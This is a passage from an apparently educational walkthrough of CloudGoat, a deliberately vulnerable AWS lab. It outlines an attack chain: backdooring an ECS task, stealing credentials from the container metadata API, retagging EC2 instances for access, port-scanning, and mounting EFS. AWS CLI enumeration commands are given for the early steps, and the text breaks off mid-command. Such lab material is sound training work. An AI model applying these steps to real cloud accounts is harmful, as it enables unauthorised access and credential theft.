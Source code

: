 ```bash
# securedb -> \dt
# securedb -> select * from sensitive_information;


# Destroy the scenario resources
python3 cloudgoat.py destroy codebuild_secrets

```





---


### Scenarios 8: ecs_efs_attack (Large / Hard)



| ++             | ++                                       |
| -------------- | ---------------------------------------- |
| Scenario Goal  | get the SSH keys which grant direct access to the EC2  |
| Size           | Large                                    |
| Difficulty     | Hard                                     |
| Command        | `$ ./cloudgoat.py create ecs_efs_attack` |



Starting with access the "ruse" EC2
- the user leverages the instace profile to backdoor the running ECS container.
- Using the backdoored container the attacker can retireve credentials from the container metadata API.
- These credentials allow to start a session on any EC2 with the proper tags set.
- The attacker uses their permissions to change the tags on the Admin EC2 and starts a session.
- Once in the Admin EC2, port scan the subnet for an open EFS to mount.
- Once mounted, retrieve the flag from the elastic file system.


![diagram](https://i.imgur.com/s63NaoU.png)

```bash


# Access the "Ruse_Box" ec2 using the provied access key.
ssh -i cloudgoat ubuntu@<IP ADDRESS>
# Configure the role credentials
aws configure --profile ruse
aws iam list --profile ruse

# From the ec2 enumate permission.

# list avaible ec2 and note how the tags are configured.
aws ec2 describe-instances --profile ruse

# enumate existing ecs cluster and backdoor the existing task defniniton.
aws ecs list-clusters --profile ruse
# List services in cloudgoat cluster
aws ecs list-services --cluster <CLUSTER ARN> --profile ruse
# Download task definition
aws ecs describe-task-definition \
    --task-definition <TASK_NAME>:<VERSION> \
    --profile ruse > task_def.json
# Download template to register a new task
aws ecs register-task-definition \
    --generate-cli-skeleton \
```